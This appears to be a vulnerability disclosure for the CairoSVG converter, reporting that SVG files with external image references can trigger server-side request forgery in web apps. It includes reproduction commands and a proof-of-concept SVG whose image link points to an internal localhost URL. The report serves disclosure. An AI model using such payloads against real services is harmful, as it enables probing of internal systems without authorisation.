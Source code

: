 # Description

 `CairoSVG` is an SVG converter based on Cairo. It can export SVG files to PDF, EPS, PS, and PNG files. **useing this package in webapps can be lead to** `SSRF` **attacks**

# Steps To Reproduce

  0) `$ pip3 install cairosvg`
  1) `$ cairosvg payload.svg`
  1) creat a payload svg or use : [rc3.svg](https://drive.google.com/file/d/1jGhUXepvOV9bs_aaCThSmqloY_C1Nsj4/view?usp=sharing)

  rc3.svg
  ```
  <?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" style="overflow: hidden; position: relative;" width="300" height="200">
<image x="10" y="10" width="276" height="110" xlink:href="http://localhost:8080/svg" stroke-width="1" id="image3204" />
<rect x="0" y="150" height="10" width="300" style="fill: black"/>
</svg>

  ```
# POC

[gdrive](https://drive.google.com/file/d/1VqfAgldmtY-qrgHRfizVvAH2oIFZVT-q/view?usp=sharing)

# 💥 Impact

SSRF 

